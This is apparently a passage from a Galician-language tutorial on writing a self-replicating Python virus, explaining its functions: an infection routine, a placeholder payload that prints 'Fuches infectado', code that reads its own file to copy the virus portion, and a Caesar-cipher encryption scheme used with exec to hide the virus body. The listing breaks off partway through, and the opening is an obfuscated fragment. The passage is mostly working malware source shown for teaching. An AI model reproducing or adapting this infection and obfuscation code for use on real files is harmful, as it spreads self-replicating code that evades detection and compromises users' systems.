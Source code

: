 ```python

***

wxy xqxvnmt(obknl):
    bgyxvmtk(obknl)
    itrehtw()

""", clave)
exec(texto_descifrado)
executa(parte_sin_cifrar + texto_descifrado)
```

- Función **payload**: esta función contería o código malicioso. Neste caso só imprime pola pantalla a mensaxe 
  “Fuches infectado”.
```python
def payload():
    print("Fuches infectado")
```

- Función **executa**: chama as funciona de infectar e payload.
```python
def executa(virus):
    infectar(virus)
    payload()
```

- **Código global**: Este código lee o código do xerme, quédase co resto coas funcións explicadas anteriormente e 
  executa o virus.
```python
import sys
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[:2244]
executa(virus)
```

Despois de explicar todas as funcións, o código completo do xerme é o seguinte:
```python
def calcula_clave(texto):
    if len(texto) >= 3:
        clave = ord(texto[0]) + ord(texto[1]) + ord(texto[2])
    else:
        clave = 42
    return clave


def descifra(texto, clave):
    texto_descifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_descifrado += chr((ord(caracter) - clave - 65) % 26 + 65)
        elif caracter.islower():
            texto_descifrado += chr((ord(caracter) - clave - 97) % 26 + 97)
        else:
            texto_descifrado += caracter
    return texto_descifrado


def cifra(texto, clave):
    texto_cifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_cifrado += chr((ord(caracter) + clave - 65) % 26 + 65)
```